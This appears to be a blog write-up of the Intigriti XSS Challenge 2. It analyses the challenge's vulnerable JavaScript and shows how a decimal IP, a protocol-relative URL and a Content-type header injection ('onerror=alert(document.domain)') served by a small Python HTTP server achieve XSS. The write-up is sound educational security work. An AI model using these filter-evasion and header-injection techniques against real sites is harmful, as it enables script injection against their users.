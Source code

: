 ```yaml
---
layout: post
title:  "Intigriti XSS Challenge 2 and how I lost time to a bad assumption"
date:   2019-05-26
categories: intigriti xss
---
```


[Intigriti](https://www.intigriti.com/public/) is once again offering us an [XSS challenge](https://challenge.intigriti.io/2/). The first one had cryptic code and a complicated setup between the page and an `iframe`, but this time around the code is rather straight-forward. Let's see if that makes the challenge easier. ;)

## Analyzing the code

```javascript
var b64img = window.location.hash.substr(1);
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
  if (this.readyState == 4 && this.status == 200) {
    var reader = new FileReader();
    reader.onloadend = function() {
      document.write(`
        <a href="${b64img}" alt="${atob(b64img)}">
          <img src="${reader.result}">
        </a>`);
    }
    reader.readAsDataURL(this.response);
  }
};
xhttp.responseType = 'blob';
xhttp.open("GET", b64img, true);
xhttp.send();
```

1. The `hash` of the current page's url (minus the leading `#`) is assigned to `b64img`
2. A GET HTTP request is sent to `b64img` and the answer will be read as a [Blob](https://developer.mozilla.org/en-US/docs/Web/API/Blob)
3. If the HTTP request answers with 200, the Blob is [`readAsDataURL`](https://developer.mozilla.org/en-US/docs/Web/API/FileReader/readAsDataURL) with a [`FileReader`](https://developer.mozilla.org/en-US/docs/Web/API/FileReader)
4. Once the Blob is read, `b64img`, `atob(b64img)` and the data URL created from the Blob are inserted into the DOM

Main observations:

- The `hash` of the URL somehow has to be a valid URL because we're making an HTTP request from it and we expect a 200 response
- That URL also has to be a valid base64 string because we're sending it to `atob(64)` which is the JavaScript function to decode base64

## Finding a valid URL

As it was the case for the last challenge, I don't care about XSS payloads yet. It's pretty clear either `b64img`, `atob(b64img)` or `reader.result` will be where we get XSS from, but there is a major challenge before getting there: crafting a valid URL that is also valid base64!

The way its coded, a value for `b64img` without a protocol (i.e.: `http://`) will make a request relative to the current domain (`https://challenge.intigriti.io/2/`). For example if `b64img` is `ABC` it will trigger a request for `https://challenge.intigriti.io/2/ABC` while if `b64img` is `http://test.com` it will trigger a request for `http://test.com`.

At this point I made the assumption that `/` wasn't a valid base64 character (worked too much with url-safe base64 implementations lately!) and lost a ton of time trying a ton of things that made no sense until [@mastjohnny](https://twitter.com/mastjohnny) made me realize that it is a valid base64 character indeed. Many hours were lost exploring data URLs, `XMLHttpRequest` and `FileReader` for strange edge cases that would help me here but I should have verified my assumption instead. :)

### Eliminating invalid characters

I started a server on my machine and tried loading [https://challenge.intigriti.io/2/#http://127.0.0.1](https://challenge.intigriti.io/2/#http://127.0.0.1). This resulted in the following (expected) error

> Uncaught DOMException: Failed to execute 'atob' on 'Window': The string to be decoded is not correctly encoded.

I need to get rid of the `.` and the `:` because they are invalid base64 characters. Two transformations are needed!

1. Remove the `.` by changing the IP to a decimal IP: `http://127.0.0.1` becomes `http://2130706433` (See [IPv4 Address Representations](https://en.wikipedia.org/wiki/IPv4#Address_representations))
2. Remove the `:` by using a protocol-relative URL: `http://2130706433` becomes `//2130706433`
    - A protocol relative url will take the protocol of the parent page

With that I try [https://challenge.intigriti.io/2/#//2130706433](https://challenge.intigriti.io/2/#//2130706433) and the result is the following error

> GET https://127.0.0.1/ net::ERR_CONNECTION_REFUSED

The request went to *https* because I'm on the https version of the challenge. Let's try [http://challenge.intigriti.io/2/#//2130706433](http://challenge.intigriti.io/2/#//2130706433)

> Access to XMLHttpRequest at 'http://127.0.0.1/' from origin 'http://challenge.intigriti.io' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource.

There is no CORS header returned by my server so I need to add `Access-Control-Allow-Origin: *` to my response.

I can now reload the same URL and it loads without crashing!

## XSS time

`readAsDataURL` returns a data URL which contains the `Content-type` of the resource loaded. For example the default challenge URL loads an image that turns into the data URL `"data:application/octet-stream;base64,iVBORw0KGgoAAAANSUhEUgAAA0o..."`. This text is inserted straight into the HTML and I have control over the `Content-type` from my server so I set it to `text/" onerror="alert(document.domain)"><!--` and...

![Success!]({{ '/images/intigriti_xss_victory.png' | absolute_url }})

Success! I uploaded the simple HTTP server to my VPS, changed `127.0.0.1` to its public IP and submitted my solution. There were other ways to trigger the XSS but instead of listing them here I encourage you to go on twitter and find other write-ups documenting them.

Here's the code used for my server.

```python
#!/usr/bin/python3

from http.server import BaseHTTPRequestHandler, HTTPServer

class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        message = "Hello Intigriti!"

        self.protocol_version = "HTTP/1.1"
        self.send_response(200)
        self.send_header("Content-Length", len(message))
        self.send_header("Content-type", 'text/" onerror="alert(document.domain)"><!--')
        self.send_header("Access-Control-Allow-Origin", "*")
        self.end_headers()

        self.wfile.write(bytes(message, "utf8"))
        return

def run():
    server = ('0.0.0.0', 80)
    httpd = HTTPServer(server, RequestHandler)
    httpd.serve_forever()
run()
```

## Conclusion

Another fun challenge! This time aroud my key takeaways are:

- Challenge your own assumptions, they could be making the challenge harder than it really is
- Different representations of the same thing can help evade filters/validations, keep them in mind!

Thank you [@intigriti](https://twitter.com/intigriti/) and good luck to everyone for the prize!
